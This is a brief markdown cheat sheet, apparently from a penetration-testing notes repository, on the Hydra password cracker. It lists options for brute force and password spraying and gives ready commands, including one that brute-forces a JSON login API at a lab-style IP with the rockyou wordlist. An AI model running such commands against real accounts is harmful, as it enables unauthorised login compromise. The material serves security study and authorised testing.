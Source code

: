 # HYDRA ONLINE PASSWORD CRACKER

## Supports A LOT of protocols

### Commands:

#### -t 4 = Number of parallel connections per target

#### -l USER = Points to the user who's account to compromise (Brute-force)

#### -L = Wordlist for users

#### -p PASSWORD = Points to password to find user (Password spray)

#### -P = Wordlist for passwords

#### -vv = Very verbose

#### protocol = ftp, ssh, http-post-form (Requires login error to work), http-get, etc.

### Example: hydra -l USER -P LIST -f TARGET_IP http-get /directory/

## JSON brute force with hydra

### Example:

#### hydra -l myP14ceAdm1nAcc0uNT -P rockyou.txt 10.10.10.58 -s 3000 http-post-form "/api/session/authenticate{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authentication failed:H=Content-Type\: application/json" -t 64
